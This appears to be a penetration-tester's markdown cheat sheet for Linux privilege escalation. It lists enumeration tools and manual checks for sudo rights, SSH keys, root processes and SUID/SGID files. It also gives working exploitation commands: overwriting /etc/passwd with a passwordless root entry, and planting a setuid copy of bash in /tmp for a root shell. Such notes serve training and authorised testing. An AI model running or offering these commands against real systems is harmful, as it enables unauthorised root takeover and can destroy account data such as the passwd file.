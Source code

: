 ## Enumeration

### Linpeas
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite

```
linpeash.sh -a > output.txt
cat output.txt | less -R
```

### linux-smart-enumeration
https://github.com/diego-treitos/linux-smart-enumeration

```
./lse.sh -l (use this to increase verbosity level default 0)
```

### linux-exploit-suggester-2 
(use this to find kernel exploits)

https://github.com/jondonas/linux-exploit-suggester-2

### Manual checks

Lists all commands the user can use with sudo permissions

```
sudo -l
```

SSH directory

```
ls -l ~/.ssh
```

Which service(s) are been running by root? Of these services, which are vulnerable - it's worth a double check!

```
ps aux | grep root
ps -ef | grep root
```

Weak File Permissions
```
//if we can write this file we can add a new root user
ls -la /etc/shadow
ls -la /etc/passwd\

// exploit in this way
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su
```


SUID/SGID Executables
An SUID is a file that allows a user to execute the file with the permissions of the file owner, an SGID is the same except with the group owner. If the owner is root, we can essentially run files with root permissions.

```
//find all SUID files

find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null find all SUID files

// find all SGID files
find / -perm -g=s -type f 2>/dev/null

```
Check for service running only locally 
```
netstat -antpx
```

## EXPLOIT 
#### ROOTBASH
we can use this tecnquie when we found a script running as root, we can modify in this way
```
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```
Ensure that overwrite.sh is executable:
```
chmod +x /home/user/overwrite.sh
```
run and gain a root shell (-p to preserve UID)
```
/tmp/rootbash –p
```
